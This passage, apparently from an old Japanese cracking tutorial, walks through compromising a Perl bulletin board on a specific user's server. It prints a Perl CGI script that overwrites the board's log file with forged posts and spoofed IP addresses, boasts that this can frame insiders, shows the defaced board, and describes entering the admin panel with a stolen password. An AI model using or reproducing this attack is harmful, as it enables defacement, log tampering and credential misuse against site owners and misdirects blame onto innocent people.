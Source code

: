   では、実際に以下のようなスクリプトで書き込んで見ましょう。

----8<----8<----8<-- write.cgi --8<----8<----8<----8<
\#!/usr/local/bin/perl

$file = '/usr/home/web/m/mp123/cgi-bin/kaiem.log';

open(FILE, ">$file");
print FILE <<____EOT;
LIGHT<>Light Board<>008080<>6<>ＭＳ 
Ｐゴシック<><>F5F5F5<>000000<>0000FF<>800080<>FF0000<>../index.html<>100<>green<>blue<><><>
3<>6969/69/69(x0x) 69:69<>w0tId<><>Crack.<>Haa..Haa..<><>696.969.696.969<><>
2<>2002/05/25(Sat) 
16:05<>ひひひ<><>無題<>あひゃひゃひひひひひ<><>168.143.113.102<><>
1<>2002/05/25(Sat) 14:58<>管理人<><>無題<>楽しい話<><>168.143.113.109<><>
____EOT
;
close(FILE);

print "Content-Type: text/plain\x0d\x0a\x0d\x0a";
print "write\n";

----8<----8<----8<-- cut - cut --8<----8<----8<----8<

　これは完全なログファイルの置き換えです。この方法だと完璧なIPアドレスの
偽装ができるので、仲間内の犯行に見せかけることもできますね。
　多分書けていますので、掲示板を見に行って見ましょう。

●mp123の掲示板

```
[3] Crack. 投稿者：w0tId 投稿日：6969/69/69(x0x) 69:69

Haa..Haa..

--------------------------------------------------------------------------------
[2] 無題 投稿者：ひひひ 投稿日：2002/05/25(Sat) 16:05

あひゃひゃひひひひひ


--------------------------------------------------------------------------------
[1] 無題 投稿者：管理人 投稿日：2002/05/25(Sat) 14:58

楽しい話,ごちゃごちゃ

```

  きちんと書き込めていますね。成功です。
  確認のため、手に入れたパスワードを使い、管理人室に入ってみましょう。
（他人のパスワードを使ったら犯罪です）


●管理モード

```
　編集する記事をチェックして編集ボタンを押して下さい。

CHK 投稿日 題名 なまえ メール コメント
3 6969/69/69(BOM) 69:69 Cracked. HeII0  Haa..Haa.. [696.969.696.969]
2 2002/05/25(Sat) 16:05 無題 ひひひ  あひゃひゃひひひひひ [168.143.113.102]
1 2002/05/25(Sat) 14:58 無題 管理人  楽しい話 [168.143.113.109]
```
